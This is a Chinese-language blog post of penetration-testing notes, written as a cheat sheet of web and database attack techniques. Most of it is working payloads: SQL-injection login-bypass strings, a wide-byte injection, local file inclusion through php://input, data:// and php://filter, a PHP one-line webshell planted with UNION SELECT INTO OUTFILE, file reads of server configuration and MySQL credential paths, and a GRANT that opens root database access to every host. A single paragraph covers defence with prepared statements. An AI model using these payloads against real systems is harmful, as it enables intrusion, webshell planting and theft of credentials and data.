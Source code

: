 ```yaml
---
layout: post
title:  渗透测试碎碎念
category: security
tags: [渗透测试碎碎念]
keywords: 渗透测试碎碎念
description: 渗透测试碎碎念
---  
```


## 渗透测试碎碎念  
渗透过程中一些知识点备忘：  

- 00截断适用于白名单绕过，但一定要程序代码有截断漏洞，所以不一定白名单都可以绕过  
- nginx php解析漏洞 xxx.jpg/xxx.php  xxx.jpg%00.php 
- Linux 提权：1.查看系统信息 `lsb_release -a  uname -a`   
2.找exp  
- PHP的流  `http://192.168.160.13/index.php?url=zip:///var/www/html/upload/0e9982a96ad4cac58adb1a6e74e52aa2.zip%23yijuhua`    
zip文件中的内容：`<?php  _GET[a](_GET[b]);?>`   
- 登录的万能密码：  

		admin' or '1'='  
		admin'#  
		') or('a'='a  

- PHP 默认magic_quotes_gpc打开，转义单引号、双引号，php SQL注入容易出出现在整数型注入  
防范SQL注入，预编译prepare=参数化查询、过滤关键字  
那为什么它这样处理就能预防SQL注入提高安全性呢？其实是因为SQL语句在程序运行前已经进行了预编译，在程序运行时第一次操作数据库之前，SQL语句已经被数据库分析，编译和优化，对应的执行计划也会缓存下来并允许数据库已参数化的形式进行查询，当运行时动态地把参数传给PreprareStatement时，即使参数里有敏感字符如 or '1=1'也数据库会作为一个参数一个字段的属性值来处理而不会作为一个SQL指令，如此，就起到了SQL注入的作用了！  
- 宽字节注入  
举个例子，假设/1 .php?id=1里面的id参数存在宽字节注人漏洞，当提交/1 .php?id=-1’ and 1=1%23时，MySQL运行的SQL语句为：  

        select * from user where id='1\' and 1=1#'   

很明显这是没有注人成功的，我们提交的单引号被转义导致没有闭合前面的单引号，但是我们提交/1 .php?id=-1%df' and 1=1%23时，这时候MySQL运行的 SQL语句为：  


	select * from user where id='1運' and 1=1#'  

这是由于单引号被自动转义成\'，前面的%df和转义字符\反斜杠（%5c)组合成 了%df%5c，也就是“運”字，这时候单引号依然还在，于是成功闭合了前面的单引号。  
 
- 本地文件包含  

1.1 截断类型：php %00截断  

截断条件：  

php版本小于5.3.4   
php的magic_quotes_gpc为OFF状态  

1.2 文件路径长度截断  
系统文件路径长度限制：  

windows 259个bytes  
linux 4096个bytes  
php版本为5.3.4以下（具体哪个版本不是很清楚，乌云上kukki写的5.2.8以下，这明显是不对的，因为我测试用的5.2.9）  
GPC是否开启没关系  

php://input包含:在allow_url_include为On的情况下可用，不受版本限制  

    http://127.0.0.1/test.php?file=php://input  
    <?php phpinfo();?>  


data:流  

    http://127.0.0.1/test.php?file=data://text/plain;base64,PD9waHAKcGhwaW5mbygpOwo/Pgo=  

在allow_url_include为On的情况下可用  


    php://filter/read=convert.base64-encode/resource=   

方法读取源码:基本都能用，路径被限制则失败  

- ereg有两个漏洞  

%00截断及遇到%00则默认为字符串的结束  

当ntf为数组时它的返回值不是FALSE  

- mysql 写入一句话木马  

        http://127.0.0.1/sqllib/Less-7/?id=1'))UNION SELECT 1,2,'<?php @eval($_post[“mima”])?>' into outfile "c:\\wamp\\www\\sqllib\\Less-7\\yijuhua.php"--+    

- find / -name index.php  查找网站路径  
- select '一句话' into outfile 'path'  
- select load_file('path') 读取文件  
- mysql>system 系统命令  
- phpmyadmin 2.11.b 2.11.4 存在万能密码  
- 获取绝对路径：  1.报错；  
2.找配置文件：   
 
		c:\windows\php.ini  
		c:\windows\system32\inetsrv\MetaBase.xml  
		select 1,load_file('c:\\windows\\system32\\inetsrv\\MetaBase.xml')  
		/etc/php.ini  
		/etc/httpd/conf.d/php.conf  
		/etc/httpd/conf/httpd.conf  
		/usr/local/apache/conf/httpd.conf  
		/usr/local/apache2/conf/httpd.conf  
		system vi /etc/httpd/conf/httpd.conf  

搜索 path  

- 获取mysql用户名密码  
配置文件：conn、config、data、sql、common、inc  
查看数据库安装路径下mysql文件 /data/mysql/user.myd  
cmd5破解（*开头）  

- 菜刀数据库管理可以配置数据库，连接数据库，mysql开启root允许远程连接：  
 
        GRANT ALL PRIVILEGES ON *.* TO root@"%" IDENTIFIED BY "root";  
        flush privileges;   

- 寻找服务端口  

        tasklist /svc  
        netstat -ano  














		


